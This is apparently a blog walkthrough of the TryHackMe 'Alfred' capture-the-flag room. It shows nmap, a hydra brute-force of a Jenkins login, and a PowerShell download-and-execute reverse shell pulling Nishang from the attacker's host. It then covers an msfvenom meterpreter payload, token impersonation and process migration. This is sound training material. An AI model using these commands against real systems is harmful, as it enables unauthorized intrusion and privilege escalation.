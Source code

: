 ```yaml
---
title: Alfred
date: 2021-06-16 0:44:44 -0800
categories: [TryHackMe]
tags: [TryHackMe] 
pin: true
---
```

## [Click here if you're interested in the room!](https://tryhackme.com/room/alfred)


**This guide is meant to be used as a supplement for learning, please tackle this on your own before reading this!**



1. [How many TCP ports are open?](#1)
2. [What is the username and password for the log in panel?](#2)
3. [Find a feature of the tool that allows you to execute commands on the underlying system.](#3)
4. [What is the user.txt flag?](#4)
5. [Switching shells](#5)
6. [Size of the payload](#6)
7. [Token Impersonation](#7)
8. [Output of guid command](#8)
9. [Migrating and finding root.txt](#9)




<a name="1">
  
## 1) The first question asks for the number of TCP ports open, we can use a nmap scan for this.


```bash
nmap -vv -sC -sV -A -Pn -oN nmap.log {target_ip_here}
```

![image](https://user-images.githubusercontent.com/60508293/121830197-5854e580-cc79-11eb-9b1e-222a48c6e248.png)
![image](https://user-images.githubusercontent.com/60508293/121830228-699df200-cc79-11eb-8f13-f8aff52090b5.png)



<a name="2">
  
## 2) What is the username and password for the log in panel(in the format username:password)

Seems like port 8080 is open so lets navigate to that.
![image](https://user-images.githubusercontent.com/60508293/121830311-9d791780-cc79-11eb-95b5-bf9587c0fe16.png)

Navigating to the target ip at port 8080 brings us to a login page for [Jenkins]
![image](https://user-images.githubusercontent.com/60508293/121830930-12991c80-cc7b-11eb-9c32-2b018d9f9b92.png)

Viewing the page source doesn't seem to give any hidden credentials, so we will need to be bruteforcing credentials.

I will be using hydra for this.

First, I'll be using BurpSuite to intercept the login request.
We can see that it is a http post request along with the required parameters circled in red.
![image](https://user-images.githubusercontent.com/60508293/121830863-e8dff580-cc7a-11eb-8320-d5beb1ded444.png)

It seems like both the username and pass are 5 words long, I'll be using hydra to bruteforce credentials.
I will be making a copy of a username text file and a password textfile that are only five characters long from seclists.
![image](https://user-images.githubusercontent.com/60508293/121830634-44f64a00-cc7a-11eb-807e-1c346439cbe3.png)
![image](https://user-images.githubusercontent.com/60508293/121830726-84249b00-cc7a-11eb-8bc7-21d880aae6a0.png)

using hydra to bruteforce credentials
```bash
hydra -L five_c_user.txt -P five_c_pass.txt -s 8080 {target_ip} http-post-form "j/acegi_security_check:j_username=^USER^&j_password=^PASS^:Invalid username or password
```

**Success we can now login with our new credentials!**

![image](https://user-images.githubusercontent.com/60508293/121831597-afa88500-cc7c-11eb-97ad-7ba6f746e81a.png)

  
<a name="3">
  

## 3) Find a feature of the tool that allows you to execute commands on the underlying system.

Peering around the website we go into the project -> configure -> build and we are presented with something that looks like a CLI.
![image](https://user-images.githubusercontent.com/60508293/121832123-2db95b80-cc7e-11eb-80dd-0ff3d7077b35.png)

If we save and build the project again, we can see the whoami command is invoked in the latest build.
![image](https://user-images.githubusercontent.com/60508293/121832253-82f56d00-cc7e-11eb-89cd-3fc551689195.png)

Seems like we can gain access to the machine using a reverse shell.

Let's grab Nishang's TCP reverse shell script
```bash
wget https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1
```
Next, we'll need to host a http.server so the server can download the powershell file. (default port 8000)
```bash
python3 -m http.server
```
We will also need to open a netcat listener for the reverse shell, I will be using a wrapper called rlwrap along with nc to do this.
```bash
rlwrap nc -lvnp 4444
```
Run the  powerline command in the room.
The first download port should be the http.server port (8000) and the other port should be the nc reverse shell listener port (4444 in my case)
Then click build now.
```powershell
powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port
```
  
<a name="4">  

## 4) What is the user.txt flag? 

We should be connected to our reverse shell after invoking the build.
![image](https://user-images.githubusercontent.com/60508293/121841549-67489180-cc93-11eb-9f1a-9a1ebadea749.png)



We're looking for a user.txt file, so lets run the equivalent find command in powershell
```powershell
Get-Childitem -Path C:\ -Include *user.txt* -Recurse -ErrorAction SilentlyContinue
```

Seems like we got a match!


![image](https://user-images.githubusercontent.com/60508293/121840047-3155de00-cc90-11eb-89e5-f4fd6db2ed46.png)


Success!


![image](https://user-images.githubusercontent.com/60508293/121840081-52b6ca00-cc90-11eb-82ec-74b932f74956.png)


![image](https://user-images.githubusercontent.com/60508293/121840109-65c99a00-cc90-11eb-8656-d632f9843b92.png)

  
<a name="5">
  
  
## 5) Switching shells
  
Using nc for a reverse shell is usually unstable or very buggy so using Metasploit to gain a meterpreter shell will give us a more full-fleshed shell experience.

Use msfvenom to generate a payload for the windows reverse shell (Im naming it as hello.exe):
```bash
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=[IP] LPORT=[PORT] -f exe -o hello.exe
```
  Host a python server on your local machine:
  ```python
  python3 -m http.server
  ```
  
Use the following command on our netcat reverse shell:
  ```powershell
  powershell "(New-Object System.Net.WebClient).Downloadfile('http://<ip>:8000/hello.exe','hello.exe')"
  ```
  Seems like the powershell command successfully downloaded our payload.
  ![image](https://user-images.githubusercontent.com/60508293/121995046-2ddb5900-cd5b-11eb-9e9b-4a2613e061b4.png)
  
  Now we have to setup our handler in Metasploit
  ```
  use exploit/multi/handler
  set PAYLOAD windows/meterpreter/reverse_tcp
  set LHOST your-ip
  set LPORT listening-port
  run
  ```
  ![image](https://user-images.githubusercontent.com/60508293/121995391-b3f79f80-cd5b-11eb-98c1-f2172090b0a5.png)

  Finally we are ready to execute the program.
  Enter this command in the powershell:
  ```powershell
  Start-Process "hello.exe"
  ```
  Sucessfully connected.
  
  
  ![image](https://user-images.githubusercontent.com/60508293/121996252-1b621f00-cd5d-11eb-81af-63f129f5a167.png)
  
  
<a name="6">

## 6) What is the size of the payload
  
  
![image](https://user-images.githubusercontent.com/60508293/121997974-063abf80-cd60-11eb-952e-4e2c916f4946.png)


<a name="7">
  
  
## 7) Token Impersonation
  
  Now that we're in the meterpreter shell, lets switch to powershell before executing the following commands.
  ```powershell
  use powershell
  powershell_shell
  whoami /priv
  ```
  
  We can use the incognito module to exploit these two privileges.
  ![image](https://user-images.githubusercontent.com/60508293/121997268-f4a4e800-cd5e-11eb-83c8-596a9a0afc72.png)
  
  Exit out of powershell and execute in the meterpreter shell:
  
  
  ![image](https://user-images.githubusercontent.com/60508293/121997459-3e8dce00-cd5f-11eb-913e-8a3715c60f13.png)

  List all tokens then impersonate the Administrators token.
  ```
  list_tokens -g
  ```
  
  ![image](https://user-images.githubusercontent.com/60508293/121997745-acd29080-cd5f-11eb-8ec0-9cbb03ad132d.png)

  

  
<a name="8">
 
## 8) Output of guid
  
  
  ![image](https://user-images.githubusercontent.com/60508293/121998113-3e420280-cd60-11eb-999e-97928a8edc7c.png)
  
  
  
  
  
<a name="9">
    
    
 
## 9) Migrating and finding root.txt
    
Use the command ps and find the PID of services.exe in red
  
  
![image](https://user-images.githubusercontent.com/60508293/121998564-e3f57180-cd60-11eb-8f2e-b773b004afd3.png)


  
Migrate to services.exe
  
  
  
![image](https://user-images.githubusercontent.com/60508293/121998744-33d43880-cd61-11eb-9f7f-1623c4f6ba20.png)


  
Find root.txt and the flag.

  
![image](https://user-images.githubusercontent.com/60508293/121999513-4307b600-cd62-11eb-9ad9-c2934d856c7b.png)

![image](https://user-images.githubusercontent.com/60508293/121999684-75b1ae80-cd62-11eb-9fa4-6f0ec0771414.png)

  
 
### Congratulations, the room is now complete! Hopefully, this guide was helpful for anyone stuck in this room. 


  

